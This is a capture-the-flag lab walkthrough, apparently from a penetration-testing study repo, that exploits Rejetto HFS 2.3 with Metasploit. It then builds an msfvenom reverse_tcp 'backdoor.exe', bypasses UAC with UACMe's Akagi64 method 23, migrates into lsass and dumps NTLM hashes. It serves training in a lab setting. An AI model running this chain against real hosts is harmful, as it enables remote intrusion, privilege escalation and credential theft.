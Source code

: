 # 🔬UAC Bypass

## Lab 1

> 🔬 [UAC Bypass: UACMe](https://attackdefense.com/challengedetailsnoauth?cid=2208)
>
> - Target IP: `10.4.19.119`
> - **UAC** bypass

- Some useful Win CMD commands

```bash
net user
net localgroup administrators
```

### Enumeration

```bash
nmap 10.4.19.119
```

```bash
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49175/tcp open  unknown
```

- Determine the version information of the web server on port `80`

```bash
nmap -sV -p 80 10.4.19.119
```

```bash
80/tcp open  http    HttpFileServer httpd 2.3
```

![nmap port 80](assets/image-20230317102551735.png)

- The version can be checked in a browser by opening the link
  - `http://10.4.19.119/`

### Exploitation

```bash
msfconsole -q
```

- Set the target IP as **GLOBAL RHOSTS variable**

```bash
setg RHOSTS 10.4.19.119
```

```bash
search hfs
use exploit/windows/http/rejetto_hfs_exec
options
# Check other options, TARGETURI, Payload options, if necessary
exploit
```

- [Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution](https://www.exploit-db.com/exploits/39161)
- [Metasploit rejetto_hfs_exec](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/)

![Metasploit rejetto_hfs_exec](assets/image-20230317103334601.png)

- Use `meterpreter` commands to gain more information about the target

```bash
getuid
	Server username: VICTIM\admin

sysinfo
    Computer       : VICTIM
    OS             : Windows 2012 R2 (6.3 Build 9600).
    Architecture   : x64
    System Language: en_US
    Domain         : WORKGROUP
    Logged On Users: 2
    Meterpreter    : x86/windows
```

- Migrate current x86 `meterpreter` session to a x64 process

```bash
pgrep explorer
migrate 2708
```

- Get `admin` user privileges

```bash
getprivs
    Enabled Process Privileges
    ==========================
    Name
    ----
    SeChangeNotifyPrivilege
    SeIncreaseWorkingSetPrivilege
    SeShutdownPrivilege
    SeTimeZonePrivilege
    SeUndockPrivilege
```

![](assets/image-20230317104309714.png)

- Verify if `admin` user is part of the local administrators group

```bash
shell
net user
net localgroup administrators

    Alias name   administrators
    Comment   Administrators have complete and unrestricted access to the computer/domain
    Members
    -------------------------------------------------------------------------------
    admin
    Administrator
# "admin" user is a local administrator
```

![](assets/image-20230317104340214.png)

- In order to run programs or tasks with elevated privileges, UAC bypass is necessary

### UAC Bypass & Privesc

- [UACMe Akagi](https://github.com/hfiref0x/UACME/tree/master/Source/Akagi) executable is already present on the attack machine

```bash
ls /root/Desktop/tools/UACME/
	Akagi64.exe
```

- Generate a `meterpreter` payload with `msfvenom`

```bash
ip -br -c a
	eth1@if162568  UP  10.10.4.2/24
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.4.2 LPORT=1234 -f exe > backdoor.exe
```

- Set up a new `msfconsole` session and set up a listener  with `multi/handler`, to receive the connection one the payload is executed on the target
  - set the payload used with `msfvenom` - the `windows/meterpreter/reverse_tcp` one
  - set the LHOST IP and LPORT of the attack machine, based on the `msfvenom` generated payload

```bash
msfconsole -q
```

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.4.2
set LPORT 1234
run
```

- The `reverse_tcp handler` is listening and ready to receive the connection from the malicious payload
- Head back in the `meterpreter` session already opened

```bash
cd C:\\
mkdir Temp
cd Temp
# or use
# cd C:\\Users\\admin\\AppData\\Local\\Temp

upload /root/backdoor.exe
upload /root/Desktop/tools/UACME/Akagi64.exe
```

![](assets/image-20230317110554477.png)

- UAC would prevent running `backdoor.exe`
- Run `Akagi64.exe` executable with UACMe methor 23

```bash
Akagi64.exe 23 C:\Temp\backdoor.exe
```

![Akagi64.exe](assets/image-20230317110948134.png)

- Elevated `meterpreter` session should be received on the listener

![Elevated Mterpreter session received](assets/image-20230317111043471.png)

- Migrate to a `NT AUTHORITY\SYSTEM` service

```bash
ps
ps -S lsass.exe
	692
migrate 692
```

![](assets/image-20230317111259217.png)

> 📌 **Privileges successfully elevated** by bypassing UAC on a system running Windows 2012 R2.

- Dump hashes to get the flag

```bash
hashdump

admin:1012:aad3b435b51404eeaad3b435b51404ee:4d6583ed4cef81c2f2ac3c88fc5f3da6:::
Administrator:500:aad3b435b51404eeaad3b435b51404ee:659c8124523a634e0ba68e64bb1d822f:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

<details>
<summary>Reveal Flag - admin NTLM Hash is: 🚩</summary>


`4d6583ed4cef81c2f2ac3c88fc5f3da6`

</details>

------


